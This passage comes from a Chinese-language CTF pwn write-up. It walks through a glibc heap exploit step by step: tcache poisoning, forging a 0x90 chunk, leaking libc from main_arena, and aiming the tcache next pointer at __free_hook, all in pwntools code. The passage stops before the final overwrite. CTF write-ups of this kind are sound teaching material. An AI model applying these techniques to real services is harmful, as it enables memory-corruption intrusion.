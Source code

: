    ![image-20240712175720770](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121757909.png)

3. 伪造0x90chunk的数量，伪造0x80chunk的next地址指向tcache+0x260（后续用来伪装成0x90chunk），伪造0x70的next地址指向tcache+0x250（0x80的上面）（后续用来更改0x80chunk的size字段值）：

   ```python
   payload = b"\x00"*0x5+b'\x01'+b'\x01'+b"\x08"+p64(0)*(7+4)+p64(tcache+0x250)*2+p64(tcache+0x260)
   edit(payload)
   ```

   ![image-20240712180651608](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121806904.png)

4. 修改上面0x80chunk的**size字段为0x91**（伪造0x90大小的chunk），再申请一个小chunk将伪造的0x90chunk与topchunk**隔开**：

   ```python
   add(0x68)   #0x70 修改0x80chunk的size字段
   payload = p64(0)+p64(0x91)+p64(0)
   edit(payload)
   add(0x38)   #将伪造的0x90chunk与TOP隔开
   edit(b'\x00'*0x8+p64(0x31)) #由于前面申请的0x40chunk会在伪造的0x90chunk的数据域内部，所以在后面额外加上0x41的数据域大小
   ```

   不加 edit(b'\x00'*0x8+p64(0x31))：（必须是0x40+0x30或者0x30+0x20，不然会报错）

   ![image-20240712181413019](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121814170.png)

   加上 edit(b'\x00'*0x8+p64(0x31))：

   ![image-20240712181629240](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121816461.png)

5. 申请0x80chunk（实际上申请的时0x90chunk），然后释放活得main_arena中的地址：

   ```python
   add(0x78)   #表面上申请0x80chunk，实际上申请的时0x90chunk
   free()
   show()
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   ```

   ![image-20240712182011615](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121820931.png)

6. 再申请0x40的chunk，释放后修改其next指针指向**__free_hook-0x8**地址（因为tcache在申请时不检查size字段，所以不用看__free_hook-0x8前面的size字段值）：

   ```python
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   add(0x28)
   free()
   payload = p64(free_hook_addr-8)
   edit(payload)
   ```
